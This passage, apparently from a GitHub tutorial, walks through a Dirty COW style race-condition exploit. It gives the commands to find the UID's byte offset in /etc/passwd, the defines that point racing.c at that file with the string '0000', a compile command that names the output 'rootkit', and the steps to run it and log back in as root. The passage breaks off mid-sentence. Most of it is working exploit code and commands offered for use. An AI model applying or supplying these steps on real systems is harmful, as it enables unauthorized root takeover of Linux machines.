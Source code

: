 #### Escalating Privileges With Racing Threads ####
We can modify the program to gain root privileges. To do that, we will need to modify UID inside the `/etc/passwd` file. Locate your user entry in the `/etc/passwd`. You can use the following command:

```bash
$ cat /etc/passwd | grep -b <<your_username>>
```
`grep` will return the byte offset of the first character on the line. We are interested in the byte offset of the first decimal number on that line. This number is the UID (User ID) and we need to change it to 0 to become root. Since we know the byte offset of the first character of the line, simply start counting at that number and count up to the first digit of the number, this is our byte offset. You can verify the byte offset is correct with the following command:

```bash
$ dd if=/etc/passwd bs=1 count=4 status=none skip=<<your_offset>>
```
Make sure to change the count to how many digits your UID is. It is a four digit number in most cases. Once you verified your offset, enter it in the `CONTENT_OFFSET` in the `racing.c` file to whatever your byte offset is. Next, change the `CONTENT_STRING` to `0000` or how many digits your original UID is.
The top of the file `racing.c` should now look something like this:

```c
#include <stdio.h>
#include <stdint.h>
#include <unistd.h>
#include <string.h>
#include <fcntl.h>
#include <pthread.h>
#include <sys/mman.h>
#include <sys/stat.h>

// read-only file we want to write into
#define CONTENT_FILE "/etc/passwd"
// string to write
#define CONTENT_STRING "0000"
// byte offset of the starting location to write to 
#define CONTENT_OFFSET 2999
```
Compile the file with:

```bash
$ gcc -o rootkit racing.c -lpthread
```

Before executing the program, make sure to read **Kernel Panic Workaround** section first as it is possible that your system might panic unless action is taken. When you are ready, execute the program:

```bash
$ ./rootkit
```
The program runs infinite loops and never finishes, therefore you have to kill it after a couple of seconds. I found three seconds to be sufficient to perform a dirty copy-on-write. Press `Ctrl+C` to terminate the program. Now you need to logout and login. You should be in a root shell now. Make sure to run
